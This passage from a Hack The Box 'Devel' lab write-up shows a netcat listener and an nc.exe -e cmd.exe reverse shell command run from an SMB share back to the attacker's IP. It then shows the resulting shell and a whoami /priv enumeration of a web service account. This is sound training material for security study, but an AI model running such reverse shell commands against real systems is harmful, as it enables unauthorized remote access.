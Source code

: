 ```
nc -lvnp 4444
```

```
\\10.10.14.36\share\nc.exe -e cmd.exe 10.10.14.36 4444
```

<p align="center">
  <img src="{{ site.github.url }}/images/htb/devel/image-20210527220921685.png" />
</p>


```
┌──(root@kali)-[~/htb/devel]
└─# nc -lvnp 4444                                                                                                                                                                                     1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.5] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

And we get a shell! Running a `whoami` command shows us we are a low-privileged user.

```
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

Since we got a shell off of a web server, something I like doing is running `whoami /priv` to see what is on this account. If you ever get code execution and get a shell on a service account, running `whoami /priv` is a great thing to do because service accounts tend to have something interesting which is what you'll see below.

```
whoami /priv
```

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
